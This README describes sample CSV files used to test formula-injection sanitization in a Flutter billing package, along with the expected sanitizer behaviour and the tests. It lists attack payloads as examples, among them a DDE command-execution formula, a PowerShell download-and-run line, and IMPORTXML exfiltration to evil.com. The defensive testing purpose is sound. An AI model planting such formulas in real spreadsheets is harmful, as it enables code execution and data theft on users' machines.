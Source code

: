 # CSV Injection Attack Sample Files

This directory contains sample CSV files demonstrating various CSV injection attack vectors and edge cases. These files are used for testing the OWASP-compliant sanitization implemented in the billing_templates package.

## ⚠️ Security Warning

**DO NOT** open these files in Microsoft Excel, LibreOffice Calc, or Google Sheets without understanding the security risks. These files contain malicious formulas designed to demonstrate CSV injection vulnerabilities.

## Sample Files

### 1. `sample_items_injection_attack.csv`
Demonstrates CSV injection attacks in item/product import context.

**Attack Vectors Included:**
- **Command Execution (DDE)**: `=cmd|'/c calc'!A1`
- **Phishing (HYPERLINK)**: `=HYPERLINK("http://evil.com";"Click")`
- **Formula Injection**: `@SUM`, `+formula`, `-formula`
- **Data Exfiltration**: `=IMPORTXML(CONCAT("http://evil.com/?v=";A2);"//root")`
- **PowerShell Payload**: `=cmd|'/c powershell IEX(wget http://evil.com/payload)'!A1`
- **Pipe Injection**: `|calc`
- **Tab Character Injection**: Leading tab character
- **Multi-line Injection**: Formulas with embedded newlines

**Safe Examples Included:**
- Normal product names
- Email addresses with `+` (safe: not at start)
- Phone numbers with `-` (safe: not at start)

### 2. `sample_parties_injection_attack.csv`
Demonstrates CSV injection attacks in party/contact import context.

**Attack Vectors Included:**
- Malicious business names with formulas
- Phone numbers with WEBSERVICE exfiltration
- Addresses containing formulas
- IMPORTXML data theft attempts
- Tab and pipe character injection
- Indirect reference injection

**Safe Examples Included:**
- Legitimate Indian GST numbers
- Valid PAN numbers
- Phone numbers with country codes
- Email addresses with special characters

### 3. `sample_items_edge_cases_security.csv`
Edge cases and boundary conditions for sanitization.

**Test Cases:**
- Single dangerous characters (`=`, `+`, `-`, `@`, `|`)
- Special characters in middle of strings (safe)
- Email addresses (safe)
- Unicode characters (Thai, Chinese, Spanish, etc.)
- Multi-line values
- Symbols and emojis
- Legitimate uses of special characters

## Expected Behavior

When these files are imported using the `SheetsImporterService` with default configuration (`sanitizeInput: true`):

### ✅ Sanitized Cells
All cells starting with dangerous characters will be prepended with a single quote `'`:
- `=malicious` → `'=malicious`
- `+attack` → `'+attack`
- `-formula` → `'-formula`
- `@SUM(1)` → `'@SUM(1)`
- `|calc` → `'|calc`

### ✅ Import Warnings
The import result will contain warnings of type `ImportWarningType.sanitizedFormulaInjection` for each sanitized cell:

```dart
ImportWarning(
  message: 'Sanitized potential CSV injection: "=malicious" → "\'=malicious"',
  rowIndex: 0,
  columnName: 'Item Name',
  type: ImportWarningType.sanitizedFormulaInjection,
)
```

### ✅ Safe Values Preserved
Values with special characters NOT at the start are preserved as-is:
- `user+tag@example.com` → unchanged (safe)
- `123-456-7890` → unchanged (safe)
- `Product = Good` → unchanged (safe)

## Usage in Tests

### Automated Testing
These files are referenced in `/test/security/csv_injection_test.dart` for integration testing:

```dart
final result = await service.importItems(
  fileBytes: await File('examples/sample_imports/sample_items_injection_attack.csv').readAsBytes(),
  fileName: 'sample_items_injection_attack.csv',
);

expect(result.data![0].name, equals("'=1+1+cmd|'/c calc'!A1"));
expect(result.warnings.any((w) => w.type == ImportWarningType.sanitizedFormulaInjection), true);
```

### Manual Testing
1. Run the Flutter app in Chrome: `flutter run -d chrome`
2. Navigate to the import screen
3. Select one of the sample attack files
4. Verify that:
   - Import succeeds
   - Dangerous formulas are neutralized with `'` prefix
   - Warnings are displayed to the user
   - Data can be safely exported to Excel/CSV later

## Opt-Out (Not Recommended)

To disable sanitization for trusted data sources:

```dart
final result = await service.importItems(
  fileBytes: fileBytes,
  fileName: 'trusted_source.csv',
  config: const ImportConfig(sanitizeInput: false),
);
```

**⚠️ Warning**: Only use `sanitizeInput: false` for data from completely trusted sources that you control. Disabling sanitization exposes your users to CSV injection attacks.

## References

- **OWASP CSV Injection**: https://owasp.org/www-community/attacks/CSV_Injection
- **CWE-1236**: https://cwe.mitre.org/data/definitions/1236.html
- **CSV Injection Talk (DEF CON)**: https://www.veracode.com/blog/secure-development/csv-injection-basic-write-exploit-and-protect
- **Google Security Blog**: https://security.googleblog.com/2017/10/building-more-secure-web-part-1.html

## Testing Checklist

- [ ] Import each sample file with default config
- [ ] Verify all dangerous formulas are sanitized
- [ ] Check that warnings are generated
- [ ] Confirm safe values are unchanged
- [ ] Export imported data to Excel and verify formulas don't execute
- [ ] Test with `sanitizeInput: false` and confirm formulas are preserved
- [ ] Run automated test suite: `flutter test test/security/csv_injection_test.dart`

## Security Contact

If you discover a new CSV injection vector not covered by these samples, please report it to the maintainers.
